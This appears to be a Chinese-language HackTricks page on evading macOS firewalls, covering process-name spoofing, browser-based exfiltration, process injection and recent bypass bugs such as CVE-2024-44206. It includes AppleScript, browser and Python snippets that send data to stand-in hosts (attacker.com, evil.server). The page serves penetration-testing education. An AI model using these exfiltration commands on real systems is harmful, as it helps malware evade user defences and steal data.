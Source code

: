 # macOS 绕过防火墙

{{#include ../../banners/hacktricks-training.md}}

## 发现的技术

以下技术在某些 macOS 防火墙应用中有效。

### 滥用白名单名称

- 例如，使用知名 macOS 进程的名称调用恶意软件，如 **`launchd`**

### 合成点击

- 如果防火墙要求用户授权，让恶意软件 **点击允许**

### **使用苹果签名的二进制文件**

- 像 **`curl`**，还有其他如 **`whois`**

### 知名苹果域名

防火墙可能允许连接到知名的苹果域名，如 **`apple.com`** 或 **`icloud.com`**。iCloud 可以用作 C2。

### 通用绕过

一些尝试绕过防火墙的想法

### 检查允许的流量

了解允许的流量将帮助您识别潜在的白名单域名或哪些应用程序被允许访问它们。
```bash
lsof -i TCP -sTCP:ESTABLISHED
```
### 滥用 DNS

DNS 解析是通过 **`mdnsreponder`** 签名应用程序完成的，该应用程序可能被允许联系 DNS 服务器。

<figure><img src="../../images/image (468).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### 通过浏览器应用

- **oascript**
```applescript
tell application "Safari"
run
tell application "Finder" to set visible of process "Safari" to false
make new document
set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```
- 谷歌浏览器
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
- 火狐浏览器
```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```
- Safari
```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```
### 通过进程注入

如果你可以**将代码注入到一个可以连接到任何服务器的进程中**，你就可以绕过防火墙保护：

{{#ref}}
macos-proces-abuse/
{{#endref}}

---

## 最近的 macOS 防火墙绕过漏洞 (2023-2025)

### 网络内容过滤器（屏幕时间）绕过 – **CVE-2024-44206**
在2024年7月，苹果修复了Safari/WebKit中的一个关键漏洞，该漏洞破坏了屏幕时间家长控制使用的系统范围“网络内容过滤器”。
一个特别构造的URI（例如，带有双重URL编码的“://”）未被屏幕时间ACL识别，但被WebKit接受，因此请求未经过滤地发送出去。任何可以打开URL的进程（包括沙盒或未签名的代码）因此可以访问用户或MDM配置文件明确阻止的域。

实际测试（未修补的系统）：
```bash
open "http://attacker%2Ecom%2F./"   # should be blocked by Screen Time
# if the patch is missing Safari will happily load the page
```
### Packet Filter (PF) 规则排序漏洞在早期 macOS 14 “Sonoma”
在 macOS 14 测试版周期中，Apple 在 **`pfctl`** 的用户空间包装中引入了一个回归。
使用 `quick` 关键字添加的规则（许多 VPN 杀开关使用）被静默忽略，即使 VPN/防火墙 GUI 报告 *已阻止*，也会导致流量泄漏。该漏洞已被多个 VPN 供应商确认，并在 RC 2（构建 23A344）中修复。

快速泄漏检查：
```bash
pfctl -sr | grep quick       # rules are present…
sudo tcpdump -n -i en0 not port 53   # …but packets still leave the interface
```
### 滥用苹果签名的辅助服务（遗留 – macOS 11.2 之前）
在 macOS 11.2 之前，**`ContentFilterExclusionList`** 允许 ~50 个苹果二进制文件，如 **`nsurlsessiond`** 和 App Store，绕过所有使用网络扩展框架（LuLu、Little Snitch 等）实现的套接字过滤防火墙。
恶意软件可以简单地生成一个被排除的进程——或向其中注入代码——并通过已经允许的套接字隧道其自身流量。苹果在 macOS 11.2 中完全移除了排除列表，但该技术在无法升级的系统上仍然相关。

示例概念验证（11.2 之前）：
```python
import subprocess, socket
# Launch excluded App Store helper (path collapsed for clarity)
subprocess.Popen(['/System/Applications/App\\ Store.app/Contents/MacOS/App Store'])
# Connect through the inherited socket
s = socket.create_connection(("evil.server", 443))
s.send(b"exfil...")
```
---

## Tooling tips for modern macOS

1. 检查 GUI 防火墙生成的当前 PF 规则：
```bash
sudo pfctl -a com.apple/250.ApplicationFirewall -sr
```
2. 枚举已经拥有 *outgoing-network* 权限的二进制文件（对搭便车很有用）：
```bash
codesign -d --entitlements :- /path/to/bin 2>/dev/null \
| plutil -extract com.apple.security.network.client xml1 -o - -
```
3. 以编程方式在 Objective-C/Swift 中注册您自己的网络扩展内容过滤器。
一个最小的无根 PoC，可以将数据包转发到本地套接字，已在 Patrick Wardle 的 **LuLu** 源代码中提供。

## References

- [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)
- <https://nosebeard.co/advisories/nbl-001.html>
- <https://thehackernews.com/2021/01/apple-removes-macos-feature-that.html>

{{#include ../../banners/hacktricks-training.md}}
